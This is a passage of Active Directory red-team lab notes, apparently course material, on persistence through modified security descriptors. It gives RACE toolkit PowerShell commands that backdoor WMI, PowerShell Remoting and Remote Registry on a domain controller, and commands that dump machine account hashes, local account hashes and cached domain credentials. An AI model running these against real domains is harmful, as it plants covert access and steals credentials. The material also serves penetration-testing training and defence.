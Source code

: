 - It is possible to modify Security Descriptors (security information like Owner, primary group, DACL and SACL) of multiple remote access methods (securable objects) to allow access to non-admin users.
- Administrative privileges are required for this.
- It, of course, works as a very useful and impactful backdoor mechanism.
### Persistence using ACLs - Security Descriptors - WMI
ACLs can be modified to allow non-admin users access to securable objects. Using the RACE toolkit:
```
. C:\AD\Tools\RACE-master\RACE.ps1
```
- On local machine for student1:
```
Set-RemoteWMI -SamAccountName student1 -Verbose
```
- On remote machine for student1 without explicit credentials:
```
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
```
- On remote machine with explicit credentials. Only root\cimv2 and nested namespaces:
```
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose
```
- On remote machine remove permissions:
```
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc-namespace 'root\cimv2' -Remove -Verbose
```

### Persistence using ACLs - Security Descriptors - PowerShell Remoting
Using the RACE toolkit - PS Remoting backdoor not stable after August 2020 patches
- On local machine for student1:
```
Set-RemotePSRemoting -SamAccountName student1 -Verbose
```
- On remote machine for student1 without credentials:
```
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Verbose
```
- On remote machine, remove the permissions:
```
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Remove
```

### Persistence using ACLs - Security Descriptors - Remote Registry
- Using RACE or DAMP, with admin privs on remote machine
```
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student1 -Verbose
```
- As student1, retrieve machine account hash:
```
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
```
- Retrieve local account hash:
```
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose
```
- Retrieve domain cached credentials:
```
Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose
```

